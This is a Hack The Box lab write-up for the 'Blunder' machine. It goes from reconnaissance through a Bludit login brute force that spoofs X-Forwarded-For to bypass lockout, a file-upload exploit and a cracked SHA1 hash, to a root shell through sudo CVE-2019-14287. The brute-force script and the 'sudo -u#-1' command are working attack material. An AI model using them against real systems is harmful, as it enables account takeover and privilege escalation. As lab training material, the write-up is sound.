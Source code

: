 # Blunder
![alt text](https://www.hackthebox.eu/storage/avatars/6437ea67350beceeb5c313f386bd1abe_thumb.png)
Hack the Box, Blunder
Easy, Linux, 20 Points

# Reconnaisance
  - Nmap

    ```bash
    nmap -A -T5 -oN nmap.txt -vv 10.10.10.191

    # Nmap 7.60 scan initiated Wed Jun  3 23:28:58 2020 as: nmap -A -T5 -oN nmap.txt -vv 10.10.10.191
    Increasing send delay for 10.10.10.191 from 0 to 5 due to 11 out of 20 dropped probes since last increase.
    Nmap scan report for 10.10.10.191
    Host is up, received syn-ack (0.21s latency).
    Scanned at 2020-06-03 23:28:58 +08 for 187s
    Not shown: 998 filtered ports
    Reason: 998 no-responses
    PORT   STATE  SERVICE REASON       VERSION
    21/tcp closed ftp     conn-refused
    80/tcp open   http    syn-ack      Apache httpd 2.4.41 ((Ubuntu))
    |_http-generator: Blunder
    | http-methods: 
    |_  Supported Methods: POST
    |_http-title: Blunder | A blunder of interesting facts
    
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Jun  3 23:32:05 2020 -- 1 IP address (1 host up) scanned in 186.94 seconds

    ```
# Website Enum
  - Gobuster
  
    ```
    gobuster -u http://10.10.10.191/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt' -x php,html,txt
    /admin
    /todo.txt
    ```
    Note Found in /todo.txt
    ```
    -Update the CMS
    -Turn off FTP - DONE
    -Remove old users - DONE
    -Inform fergus that the new blog needs images - PENDING
    ```
    From the note, we have user 'fergus' mentioned.
    Login page found in /admin
    Generate Password wordlist from the website using cewl
    ```bash
    cewl -d 10 -m 8 -w wordlist http://10.10.10.191
    ```
    bruteforce the login using this [script](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) as reference
    here is my working script
    ```python
    #!/bin/python
    
    import re
    import requests
    #import http.client 
    host = 'http://10.10.10.191'
    login_url = host + '/admin/'
    username = 'fergus'
    wordlist = []
    
    file = open('wordlist','r')
    for word in file:
        wordlist.append(word)
    
    
    for password in wordlist:
        session = requests.Session()
        login_page = session.get(login_url)
        try:
            csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
        except:
            csrf_token = None
        print('[*] Trying: {p}'.format(p = password))
        #http.client._is_legal_header_name = re.compile(rb'[^\s][^:\r\n]*').fullmatch
        headers = {
            'X-Forwarded-For': password.strip(),
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
            'Referer': login_url
        }
    
        data = {
            'tokenCSRF': csrf_token,
            'username': username,
            'password': password.strip(),
            'save': ''
        }
    
        login_result = session.post(login_url, headers = headers, data = data, allow_redirects = True)
    
        #print(login_result.text)
        if '/admin/dashboard' in login_result.text:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
    ```



# User Access

to gain user access, we need to exploit we will have to exploit arbitrary file upload.
here i'm using metasploit, but it can also be done by using the php exploit.
here is the [link](https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec) to the rapid7 website regarding the module that will be used.

![alt text](https://i.imgur.com/X2hdtiF.png)
after getting shell as www-data, we can try to enumerate the website deployment directory to find the passwordhash of the user 'hugo'.

Inside 
    ```
    /var/www/bludit-3.10.0a/bl-content/databases    
    ```
we can find "users.php" that contains the hash of user 'hugo'

![alt text](https://i.imgur.com/cFUhSOs.png)

we can try to analyze the hash in this [website](https://www.tunnelsup.com/hash-analyzer/) and turns out that the hash is actually SHA1. Then we can try to crack it online. i found this [website](https://md5decrypt.net/en/Sha1/) worked.

after getting the password, We can su to hugo and get the user flag inside hugo's homme directory.

![alt text](https://i.imgur.com/LxyFvDM.png)

# Privilege Escalation

Since we have the password of hugo already, we can try to execute 
    ``` 
    $ sudo -l
    ```
this will return the sudo privilege of the user 'hugo'

    
    Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash
    

From the result above, we can see that this machine may vulnerable to the famous vulnerability sudo that can help user escalate privilege by passing unisgned user id. You can read the details [here](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287)

we can exploit it with a simple command. Since the sudo can work with bash, so we can try to execute
    ```
    $ sudo -u#-1 /bin/bash
    ```
from that simple command we can directly get a root shell
![alt text](https://i.imgur.com/I8r0HzY.png)

